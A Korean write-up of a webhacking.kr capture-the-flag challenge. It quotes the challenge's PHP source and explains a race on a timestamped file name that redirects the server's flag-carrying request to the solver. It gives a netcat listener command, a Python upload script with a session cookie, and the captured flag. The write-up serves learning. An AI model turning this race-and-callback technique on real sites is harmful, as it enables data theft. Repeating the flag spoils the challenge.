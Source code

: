 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-01-03-12-05-11.png)


# **Write-Up**

view-source를 보면 업로드된 파일 이름에 접속한 IP를 적고 저장한 뒤, 접속 시간 기준 파일을 열어 적힌 IP:7777로 접속한다.

```php
... 생략 ...
<?php
  $db = dbconnect();
  $query = "select flag from challenge where idx=37";
  $flag = mysqli_fetch_array(mysqli_query($db,$query))['flag'];
  $time = time();

  $p = fopen("./tmp/tmp-{$time}","w");
  fwrite($p,"127.0.0.1");
  fclose($p);

  $file_nm = $_FILES['upfile']['name'];
  $file_nm = str_replace("<","",$file_nm);
  $file_nm = str_replace(">","",$file_nm);
  $file_nm = str_replace(".","",$file_nm);
  $file_nm = str_replace("/","",$file_nm);
  $file_nm = str_replace(" ","",$file_nm);

  if($file_nm){
    $p = fopen("./tmp/{$file_nm}","w");
    fwrite($p,$_SERVER['REMOTE_ADDR']);
    fclose($p);
  }

  echo "<pre>";
  $dirList = scandir("./tmp");
  for($i=0;$i<=count($dirList);$i++){
    echo "{$dirList[$i]}\n";
  }
  echo "</pre>";

  $host = file_get_contents("tmp/tmp-{$time}");

  $request = "GET /?{$flag} HTTP/1.0\r\n";
  $request .= "Host: {$host}\r\n";
  $request .= "\r\n";

  $socket = fsockopen($host,7777,$errstr,$errno,1);
  fputs($socket,$request);
  fclose($socket);

  if(count($dirList) > 20) system("rm -rf ./tmp/*");
?>
... 생략 ...
```

netcat을 이용하여 포트포워딩 이후 리스닝하자.

```shell
nc64.exe -nvlp 7777
listening on [any] 7777 ...
```

파일 업로드 스크립트를 실행하자.

```python
import requests
import time
import math

CHALLENGE   = 'https://webhacking.kr/challenge/web-18/'
SESSION_ID  = 'kbkqoa8a3tuso86knlnkpog5ai'
headers     = {'Cookie':'PHPSESSID='+SESSION_ID}
file_name   = 'tmp-'+str(math.trunc(time.time()))
files       = {'upfile':(file_name,'Hello world')}
req         = requests.post(CHALLENGE, headers=headers, files=files)
netcat을 보면 FLAG를 획득할 수 있다.

connect to [192.168.0.32] from (UNKNOWN) [202.182.106.159] 32964
GET /?FLAG{well...is_it_funny?_i_dont_think_so...} HTTP/1.0
Host: 61.251.215.194
```

FLAG를 인증하여 점수를 획득하자.

![](images/2022-01-03-12-05-45.png)


# **FLAG**

**FLAG{well...is_it_funny?_i_dont_think_so...}**